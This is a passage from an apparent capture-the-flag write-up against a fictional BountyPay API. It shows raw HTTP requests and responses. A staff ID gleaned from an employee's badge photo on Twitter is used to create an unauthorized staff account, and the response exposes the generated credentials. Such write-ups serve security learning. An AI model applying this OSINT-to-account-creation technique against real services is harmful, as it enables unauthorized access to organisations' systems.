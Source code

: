 This looked very interesting, a GET request to this endpoint gave me a list of staff members:

```
[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```

I tried a POST request and got the following response back:

```
HTTP/1.1 400 Bad Request
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 20:41:43 GMT
Content-Type: application/json
Connection: close
Content-Length: 21

["Missing Parameter"]
```

I played around a bit and after some time I found out the required parameter was `staff_id`. I tried passing an existing staff id, but it didn't work, I got an error saying the staff member already had an account. I also tried a random ID, no luck, it had to be a valid staff ID from a staff member that didn't had an account yet. That's where the social network intel was useful. Few weeks ago one of the new BountyPay employees posted a message on twitter, mentioning `@BountyPayHQ`:

{F853796}

The badge on this picture contains a staff ID. I tried creating an account using it and it worked:

```
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Length: 23
Content-Type: application/x-www-form-urlencoded

staff_id=STF:8FJ3KFISL3
```

Response:

```
HTTP/1.1 201 Created
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 20:53:53 GMT
Content-Type: application/json
Connection: close
Content-Length: 110

{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```
